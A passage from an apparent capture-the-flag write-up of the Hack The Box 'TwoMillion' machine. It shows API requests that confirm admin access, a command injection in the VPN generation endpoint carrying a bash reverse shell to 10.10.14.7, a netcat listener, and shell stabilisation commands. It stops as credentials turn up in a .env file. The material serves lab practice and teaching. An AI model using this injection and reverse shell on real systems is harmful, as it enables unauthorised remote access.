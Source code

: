 We confirm our user is now admin:

```bash
curl -s -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID=..." | jq
```

![test_user_is_admin](screenshots/test_user_is admin.png)

---
## 5. Command Injection

With admin rights, we attempt VPN generation again:

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" -H "Content-Type: application/json" -d '{"username": "test"}' -v
```

![post_vpn_generated](GitHubv2/HackTheBox/EASY/TwoMillion/screenshots/post_vpn_generated.png)

Testing command injection with metacharacters (`;`, `#`) confirms that code execution is possible

![post_executing_commands](GitHubv2/HackTheBox/EASY/TwoMillion/screenshots/post_executing_commands.png)

We exploit it with a reverse shell:

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" -H "Content-Type: application/json" -d '{"username": "test; bash -c \"bash -i >& /dev/tcp/10.10.14.7/443 0>&1\";"}'
```

On our listener:

```bash
nc -nlvp 443
```

![sending_a_bash](GitHubv2/HackTheBox/EASY/TwoMillion/screenshots/sending_a_bash.png)

We successfully obtain a shell.

---
## 6. Post-Exploitation

Stabilize the shell:

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We enumerate files and discover credentials inside `.env`:
